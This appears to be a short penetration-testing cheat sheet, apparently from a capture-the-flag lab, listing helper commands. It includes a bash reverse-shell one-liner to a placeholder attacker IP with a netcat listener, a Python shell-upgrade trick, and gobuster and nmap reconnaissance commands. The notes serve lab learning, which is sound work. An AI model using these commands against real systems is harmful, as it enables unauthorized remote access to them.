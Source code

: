 # Some helpers 



Creating a reverse shell 

```sh 
# On the victim machine 

bash -c 'bash -i >& /dev/tcp/<ip-address>/<port> 0>&1')

# On the attacker machine 
nc -lnvp <port>
```



Interactive shell
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg #required to bring the shell to the foreground 

export TERM=xterm #Now you can actually clear the screen 
```







# Directory busing
gobuster dir -u http://<ip-address> -w /opt/SecList/Discovery/Web-Content/raft-small-words.txt -x php -o gobuster.out

# Evaluating Ports
nmap -p- --min-rate=1000 -v -oA nmap/knife <ip-address>

# With the discoverd ports check for servises, versions and output as gnmap, nmap and xml
nmap -sC -sV -oA nmap/knife <ip-address> -p 22,80
